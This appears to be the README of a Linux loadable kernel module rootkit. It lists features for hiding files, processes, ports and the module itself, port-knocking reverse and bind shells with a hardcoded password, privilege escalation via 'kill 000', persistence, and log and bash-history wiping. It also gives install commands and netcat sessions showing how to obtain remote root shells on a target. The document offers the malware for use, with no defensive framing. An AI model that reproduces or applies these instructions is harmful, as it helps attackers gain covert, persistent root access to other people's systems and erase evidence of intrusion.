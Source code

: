 <h2>BDS LKM ROOTKIT</h2>
<p>
Linux Loadable Kernel Module Rootkit for Linux Kernel 5.x and 6.x on x86_64.
<br>
Developed by : Antonius 
<br>
Website : www.bluedragonsec.com
  <br>
Website : www.indodev.asia
<br>
Github : https://github.com/bluedragonsecurity
    <br>
  Github : https://github.com/indodev-asia
<br>
This lkm rootkit works on x64 architecture only.
</p>

<p>
<h3>Features</h3> 
<ul>
  <li>hide files and directories with prefix bds_</li>
  <li>port knocking bind shell (bind shell password is bluedragonsec)</li>
  <li>port knocking reverse shell</li>
  <li>privilege escalation using kill 000 command</li>
  <li>hide bind shell and reverse shell port from netstat</li>
  <li>hide bind shell and reverse shell process</li>
  <li>rootkit persistence to survive after reboot</li>
  <li>hide module</li>
  <li>clean logs and bash history during installation</li>
</ul>
</p>
<h3>Installation</h3>
<p>
You need root privilege for installing this rootkit.
<br>
In case you have installed linux kernel headers, make and gcc, install it by running the installer script:
<br>
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed linux kernel headers, make and gcc, install it by running the installer script  :
<br>
<pre>
./install.sh
</pre>
<br>
</p>
<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>  
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing : <b>kill 000</b>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ kill 000
robotsoft@robotsoft:~$ id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
</pre>  
</p>
<p>
<b>Activating Reverse Shell</b>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then do port knocking to your target server (with rootkit installed) on port 1337.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and do port knocking to target server :
<pre>
nc server ip 1337
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Do port knocking to target ip address (with rootkit installed) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1337
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
robotsoft@robotsoft:~$ nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.0.102 44052
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>

<p>
<b>Activating Bind Shell</b>
<br>
To activate bind shell, you need to do port knocking to your target server (with rootkit installed) on port 1338.
The bind shell password is : bluedragonsec
<br>
On your machine, open terminal and type:
<pre>
nc server ip 1338
</pre>  
Wait a few seconds then type:
<pre>
nc server ip 31337
type the password : bluedragonsec
</pre>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1338
(wait a few seconds)
robotsoft@robotsoft:~$ nc 192.168.0.102 31337
Password :bluedragonsec
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>
<p>
<b>Hiding Files and Directories</b>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>
<p>
<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to clean logs to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>


<p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>

<p>
<b>Process Hiding</b>
<br>
This rootkit hides bind shell process and reverse shell process.
</p>


<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port and reverse shell port.
</p>

